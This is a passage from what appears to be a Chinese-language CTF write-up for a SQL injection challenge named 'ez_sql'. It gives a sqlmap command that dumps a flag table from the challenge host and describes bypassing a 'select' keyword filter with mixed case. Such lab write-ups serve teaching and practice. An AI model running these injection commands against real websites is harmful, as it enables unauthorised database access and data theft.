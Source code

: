 ![在这里插入图片描述](assets/4ed2fd1d6edd4fa4800dc7c31a103e8c.png)

### ez_sql

sqlmap一把梭：

```cmd
sqlmap -u "http://2f4731e1-05d8-4b79-9b94-0870a1353852.node4.buuoj.cn:81/?id=TMP0919" -D ctf -T here_is_flag -C flag --dump
```

进来随便点一个，发现有参数id
 我们先fuzz测试一下过滤了什么
 抓包，随便用一个字典
 ![在这里插入图片描述](assets/917b219c613f40b4a7f15ea315cf7370.png)
 发现select被过滤了，那么我们用大小写绕过
